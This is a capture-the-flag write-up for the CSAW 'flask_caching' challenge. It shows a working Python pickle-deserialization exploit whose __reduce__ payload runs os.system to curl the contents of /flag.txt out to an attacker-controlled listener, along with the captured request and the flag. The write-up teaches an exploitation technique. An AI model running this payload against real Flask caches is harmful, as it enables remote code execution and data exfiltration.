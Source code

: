 # flask_caching

Author: [roerohan](https://github.com/roerohan) and [thebongy](https://github.com/thebongy)

# Requirements

- Python

# Source

- [app.py](./app.py)

```
cache all the things (this is python3)

http://web.chal.csaw.io:5000
```

# Exploitation

```py
# app.py

from flask_caching import Cache
```

When you look at the documentation for the source for the `flask_caching` module, you can optionally store a python pickle in the redis by prepending it with `'!'`. You can use python pickles for RCE, when the caching modules uses `pickle.load()` to load the cached data.

Set up a netcat listener on your server and run the following script with your IP and PORT.

```py
import pickle
import sys
import base64
import requests
import time

IP = '0.0.0.0' # Your IP here
PORT = 8000
DEFAULT_COMMAND=f'curl -d "$(cat /flag.txt)" {IP}:{PORT}'
COMMAND = sys.argv[1] if len(sys.argv) > 1 else DEFAULT_COMMAND

class PickleRce(object):
    def __reduce__(self):
        import os
        return (os.system,(COMMAND,))

f = open('payload', 'wb')
f.write(b'!'+pickle.dumps(PickleRce()))
f.close()

time.sleep(0.5)

data = open('payload', 'rb').read()
print(data)
url = 'http://web.chal.csaw.io:5000/'

test = 'test23'

requests.post(url, files={ 'content': ('content', open('payload', 'rb').read()) }, data={ 'title': f'flask_cache_view//{test}' })

r = requests.get(url + test)
print(r.text)
```

On your netcat listener, you would get:

```
POST / HTTP/1.1
Host: yourhost:yourport
User-Agent: curl/7.69.1
Accept: */*
Content-Length: 16
Content-Type: application/x-www-form-urlencoded

flag{f1@sK_10rD}
```

The flag is:

```
flag{f1@sK_10rD}
```